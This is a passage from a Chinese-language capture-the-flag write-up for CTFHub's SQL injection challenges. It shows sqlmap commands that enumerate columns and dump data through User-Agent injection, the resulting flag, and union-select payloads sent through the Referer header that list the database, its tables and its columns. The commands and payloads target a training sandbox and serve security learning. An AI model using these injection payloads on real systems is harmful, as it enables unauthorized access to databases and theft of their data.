 ![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/8.png)

知道有个叫`ulxbfmsgqx`的表后，可以查看该表的字段信息：

```sql
sqlmap -u "http://challenge-c89ea44d56d68a09.sandbox.ctfhub.com:10800/" --level 3 -D sqli -T ulxbfmsgqx --columns
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/9.png)

最后输入以下代码根据`zpmjyijptn`字段可以查询到该字段的数据：

```sql
sqlmap -u "http://challenge-c89ea44d56d68a09.sandbox.ctfhub.com:10800/" --level 3 -D sqli -T ulxbfmsgqx -C zpmjyijptn --dump
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/UA注入/10.png)

提交`ctfhub{85809c1cc35e607a1b7fed0a}`即可。


------

#### Refer注入

**解法1：**`Burp Suite`

`union select`可以进行联合查询，`id=-1`表示一个不存在的`id`，`database()`回显当前连接的数据库，修改`Referer`为以下代码可以查询到当前数据库为`sqli`：

```sql
-1 union select 1, database()
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/1.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，用以下代码能够查询到指定数据库的表信息：

```sql
-1 union select 1, group_concat(table_name) from information_schema.tables where table_schema='sqli'
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/2.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，可以看到有个表叫`dirxpetuan`，我们可以去查询该表的列信息：

```sql
-1 union select 1, group_concat(column_name) from information_schema.columns where table_name='dirxpetuan'
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/3.png)
